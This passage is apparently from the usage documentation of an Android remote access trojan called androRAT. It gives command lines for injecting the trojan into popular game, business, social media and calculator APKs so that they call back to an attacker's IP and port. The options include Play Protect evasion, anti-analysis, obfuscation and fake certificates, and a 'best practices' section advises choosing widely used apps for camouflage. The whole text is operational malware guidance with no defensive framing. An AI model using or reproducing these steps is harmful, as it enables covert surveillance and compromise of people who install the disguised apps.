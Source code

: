 ## Usage Examples

### 1. Gaming App Injection
```bash
# Inject into popular mobile game
python3 server/androRAT.py --build --inject \
  --target-apk /path/to/popular_game.apk \
  -i 192.168.1.100 -p 8080 \
  -o enhanced_game.apk \
  --play-protect-evasion --random-package
```

### 2. Business App Trojanization  
```bash
# Enterprise environment bypass
python3 server/androRAT.py --build --inject \
  --target-apk /path/to/business_app.apk \
  -i YOUR_IP -p YOUR_PORT \
  -o corporate_app.apk \
  --anti-analysis --advanced-obfuscation --fake-certificates
```

### 3. Social Media App Enhancement
```bash
# Maximum stealth for social apps
python3 server/androRAT.py --build --inject \
  --target-apk /path/to/social_app.apk \
  -i YOUR_IP -p YOUR_PORT \
  -o social_enhanced.apk \
  --stealth --anti-analysis --play-protect-evasion \
  --advanced-obfuscation --random-package
```

### 4. Utility App Modification
```bash
# Basic injection for utility apps
python3 server/androRAT.py --build --inject \
  --target-apk /path/to/calculator.apk \
  -i 192.168.1.100 -p 8080 \
  -o enhanced_calculator.apk \
  --stealth
```

## Best Practices

### Target Selection
- **Popular Apps**: Choose widely-used applications for better camouflage
- **Legitimate Sources**: Use apps from official stores when possible
- **Regular Updates**: Target apps that users expect to update frequently
- **System Tools**: Calculator, flashlight, and utility apps work well
